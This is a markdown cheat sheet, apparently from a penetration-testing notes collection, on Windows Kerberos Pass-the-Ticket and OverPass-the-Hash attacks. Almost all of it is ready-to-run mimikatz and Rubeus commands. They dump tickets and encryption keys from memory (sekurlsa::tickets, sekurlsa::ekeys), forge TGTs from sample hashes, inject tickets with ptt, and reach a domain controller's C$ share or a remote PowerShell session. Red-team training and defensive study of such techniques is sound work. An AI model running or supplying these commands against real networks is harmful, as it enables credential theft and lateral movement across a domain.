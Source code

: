 ```yaml
---
title: Pass the Ticket Windows
category: Post-Exploitation
tags: [ptt, credential, hunting, tgt, ticket, kerberos]
tools: ['mimikatz', 'Rubeus', 'evil-winrm', 'netexec', 'impacket']
---
```


# Pass the Ticket Windows

## Harvesting Kerberos tickets from Windows

### [Mimikatz](https://github.com/ParrotSec/mimikatz) - Export tickets

Harvest all tickets from a system. The result is a list of files with the extension `.kirbi`, which contain the tickets.

```cmd
privilege::debug
sekurlsa::tickets /export
```

> The tickets that end with `$` correspond to the computer  account, which needs a ticket to interact with the Active Directory.  User tickets have the user's name, followed by an `@` that separates the service name and the domain, for example: `[randomvalue]-username@service-domain.local.kirbi`. If you pick a ticket with the service krbtgt, it corresponds to the TGT of that account.

### [Rubeus](https://github.com/GhostPack/Rubeus) - Export tickets

Export tickets using `Rubeus` and the option `dump`. This option can be used to dump all tickets (run as local administrator).

```cmd
# Tickets dumped will be in Base64
Rubeus.exe dump /nowrap
```

---

## Pass the Key aka. OverPass the Hash

[Example for OverPass the Hash](https://github.com/GhostPack/Rubeus#example-over-pass-the-hash)

### Mimikatz - Extract Kerberos keys

Forging tickets the users hash is needed; use mimikatz to dump encrytion keys

```cmd
mimikatz # privilege::debug
sekurlsa::ekeys
```

### Mimikatz

With the `AES256_HMAC` and `RC4_HMAC` keys, perform the OverPass the Hash.

```cmd
# This will create a new cmd.exe window 
sekurlsa::pth /domain:example.com /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
exit
```

### Rubeus

Forge a ticket using `Rubeus`, use the module `asktgt` with the username, domain, and hash which can be `/rc4`, `/aes128`, `/aes256`, or `/des`. 

```cmd
Rubeus.exe asktgt /domain:example.com /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
exit
dir \\DC01.example.com\c$
```

> Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

---

## Pass the Ticket

### Rubeus

With some Kerberos tickets, use them to move laterally within an environment.

```cmd
# Standard method
Rubeus.exe asktgt /domain:example.com /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt

# With mimikatz ticket
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-example.com.kirbi
exit
```

> Another way is to import the ticket into the current session using the `.kirbi` file from the disk.

Base64 Format

```cmd
# Convert the ticket
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-example.com.kirbi"))

# Pass the ticket
Rubeus.exe ptt /ticket:<ticket>
exit
dir \\DC01.example.com\c$
```

### Mimikatz

```cmd
mimikatz # kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-example.com.kirbi"
exit
dir \\DC01.example.com\c$
```

> Use the Mimikatz module `misc` to launch a new command prompt window with the imported ticket using the `misc::cmd` command.

---

## PowerShell Remoting with Pass the Ticket

### Mimikatz

Use Mimikatz to import our ticket and then open a PowerShell console and connect to the target machine. Open `cmd.exe` and execute `mimikatz.exe`, import the ticket collected using `kerberos::ptt`. Once the ticket is imported into the `cmd.exe` session, launch a PowerShell from the same `cmd.exe` and use the command `Enter-PSSession` to connect to the target machine.

```cmd
# Import
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-example.com.kirbi"

# Launch PS and connect
powershell
Enter-PSSession -ComputerName DC01
```

### Rubeus

Rubeus has the option `createnetonly`, which creates a sacrificial process/logon session ([Logon type 9](https://eventlogxp.com/blog/logon-type-what-does-it-mean/)). Request a new TGT with the option `/ptt`

```cmd
# Open new cmd window
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show

# Import tick for lateral movement
Rubeus.exe asktgt /user:john /domain:example.com /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt

powershell
Enter-PSSession -ComputerName DC01
```
